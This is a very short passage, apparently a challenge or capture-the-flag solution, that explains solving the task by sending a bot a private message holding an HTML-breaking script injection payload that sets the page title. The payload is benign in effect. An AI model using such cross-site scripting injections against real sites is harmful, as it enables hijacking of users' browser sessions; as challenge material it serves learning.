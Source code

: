 # Solution

Welp, here it is:

Send a private message to the bot with the following contents:

`</p><script>document.title="hello world"</script><p>`
